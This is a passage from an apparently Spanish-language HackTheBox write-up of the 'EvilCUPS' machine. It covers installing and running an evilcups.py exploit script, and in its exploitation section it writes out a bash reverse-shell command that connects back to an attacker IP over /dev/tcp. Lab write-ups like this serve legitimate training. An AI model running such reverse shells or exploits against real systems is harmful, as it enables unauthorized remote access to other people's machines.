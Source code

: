 Una vez creado y activado el entorno virtual, ejecutamos `pip3 install -r requirements.txt` 

![EvilCUPS yw4rf](../../../assets/HTB/EvilCUPS/evilcups-12.png)

Con el requerimiento instalado, podremos usar el script `python3 evilcups.py -h` para ver los posibles comandos. Como vemos, debemos indicar nuestra ip local, la ip target y el comando a realizar.

![EvilCUPS yw4rf](../../../assets/HTB/EvilCUPS/evilcups-13.png)

## Exploitation (Explotación)

En mi caso el comando que usaré es una **Reverse Shell** encapsulada `"bash -c 'bash -i >& /dev/tcp/10.10.14.152/443 0>&1`"`

![EvilCUPS yw4rf](../../../assets/HTB/EvilCUPS/evilcups-14.png)
